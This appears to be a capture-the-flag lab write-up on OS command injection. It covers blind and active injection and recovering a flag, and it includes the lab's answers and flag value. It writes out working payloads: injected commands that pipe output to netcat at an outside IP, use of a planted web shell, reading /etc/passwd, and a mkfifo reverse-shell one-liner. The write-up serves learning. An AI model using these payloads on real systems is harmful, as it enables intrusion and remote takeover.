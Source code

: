> OS Command Injection | Introduction

export IP=10.10.245.141

# Blind Command Injection

When a server side code doesn't give any response back. We don't know if the site is responding back or not. There are 3 methods to identify it.

1. Ping => By sending 10 ICMP packets it takes 10 second delay 
2. Redirecting output using `>`
3. Using netcat `root; ls -la | nc 10.8.107.21 1234`

1. Ping the box with 10 packets.

```
& ping -c 10 $IP
```

2. Redirect the box's Linux Kernel Version to a file on the web server.  What is the Linux Kernel Version?

root; uname -r | nc 10.8.107.21 1234

```
4.15.0-101
```

# Active Command Injection

This attack show us the output through the browser. To get active command injection we can navigate to `evilshell.php` which gives us a command line. 

1. What strange text file is in the website root directory?

ls -la

```
drpepper.tx
```

2. How many non-root/non-service/non-daemon users are there?

```
cat /etc/passwd => 0
```

3. What user is this app running as?

```
whoami => www-data
```

4. What is the user's shell set as?

getent passwd www-data

**NOTE: getent gives us the entries in a number of text files called databases**

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
```

5. What version of Ubuntu is running?

lsb_release -a

```
18.04.4
```

6. Print out the MOTD.  What favorite beverage is shown? (Message Of The Day)

/etc/upadate-motd.d/header-00

```
#!/bin/sh # # 00-header - create the header of the MOTD # Copyright (C) 2009-2010 Canonical Ltd. # # Authors: Dustin Kirkland # # This program is free software; you can redistribute it and/or modify # it under the terms of the GNU General Public License as published by # the Free Software Foundation; either version 2 of the License, or # (at your option) any later version. # # This program is distributed in the hope that it will be useful, # but WITHOUT ANY WARRANTY; without even the implied warranty of # MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the # GNU General Public License for more details. # # You should have received a copy of the GNU General Public License along # with this program; if not, write to the Free Software Foundation, Inc., # 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA. [ -r /etc/lsb-release ] && . /etc/lsb-release if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then # Fall back to using the very slow lsb_release utility DISTRIB_DESCRIPTION=$(lsb_release -s -d) fi printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)" DR PEPPER MAKES THE WORLD TASTE BETTER! 
```

# Find the flag 

In evilshell.php, type `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.107.21 1234 >/tmp/f` to get reverse shell.

Now we don't have any users. We navigate to / and type `find / -name *.txt 2>/dev/null | more`

Among a list of all file we have /etc/flag.txt

```
65fa0513383ee486f89450160f3aa4c4
```